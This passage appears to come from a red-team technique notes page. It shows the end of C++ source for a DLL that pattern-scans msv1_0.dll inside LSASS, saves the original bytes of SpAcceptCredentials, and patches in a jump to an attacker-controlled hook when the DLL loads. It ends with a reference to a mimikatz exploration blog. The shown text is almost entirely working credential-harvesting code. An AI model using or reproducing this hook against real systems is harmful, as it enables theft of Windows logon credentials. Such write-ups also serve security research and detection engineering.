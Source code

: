 ```cpp
	patternStartAddressOfSpAccecptedCredentials = (LPVOID)(DWORD_PTR)GetPatternMemoryAddress((char *)targetModule, startOfPatternSpAccecptedCredentials, sizeof(startOfPatternSpAccecptedCredentials), sizeOfImage);
	addressOfSpAcceptCredentials = (LPVOID)((DWORD_PTR)patternStartAddressOfSpAccecptedCredentials - 16);

	// store first sizeof(bytesToRestoreSpAccecptedCredentials) bytes of the original msv1_0!SpAcceptCredentials routine
	std::memcpy(bytesToRestoreSpAccecptedCredentials, addressOfSpAcceptCredentials, sizeof(bytesToRestoreSpAccecptedCredentials));
	
	// hook msv1_0!SpAcceptCredentials with "mov rax, hookedSpAccecptedCredentials; jmp rax";
	DWORD_PTR addressBytesOfhookedSpAccecptedCredentials = (DWORD_PTR)&hookedSpAccecptedCredentials;
	std::memcpy(bytesToPatchSpAccecptedCredentials + 2, &addressBytesOfhookedSpAccecptedCredentials, sizeof(&addressBytesOfhookedSpAccecptedCredentials));
	std::memcpy(bytesToPatchSpAccecptedCredentials + 2 + sizeof(&addressBytesOfhookedSpAccecptedCredentials), (PVOID)&"\xff\xe0", 2);
	WriteProcessMemory(GetCurrentProcess(), addressOfSpAcceptCredentials, bytesToPatchSpAccecptedCredentials, sizeof(bytesToPatchSpAccecptedCredentials), (SIZE_T*)&bytesWritten);
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
	switch (ul_reason_for_call)
	{
		case DLL_PROCESS_ATTACH:
		{
			installSpAccecptedCredentialsHook();
		}
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			break;
	}
	return TRUE;
}
```
{% endcode %}

## References

{% embed url="https://blog.xpnsec.com/exploring-mimikatz-part-2/" %}
@spotheplanet
